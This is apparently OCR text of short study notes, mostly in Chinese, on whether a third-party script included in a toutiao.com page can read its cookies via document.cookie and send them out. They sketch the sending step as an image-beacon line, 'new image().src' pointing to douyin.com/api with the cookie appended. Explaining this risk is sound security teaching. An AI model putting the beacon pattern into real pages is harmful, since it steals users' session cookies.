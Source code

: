 ```js
  return start + end;
};
```

```
toutiao.com/toutiao.html

<head>
<script src="douyin.com/douyin.js"/>
</head>

1.douying,js = > 可以获得 toutiao,com cookie 吗？
douyin.js 执行 doucment.cookie 返回什么？
toutiao.com cookie

2.cookie 能发送给 douyin.com/api ?
var c = ""

new image().src="douyin.com/api ?"+c
```


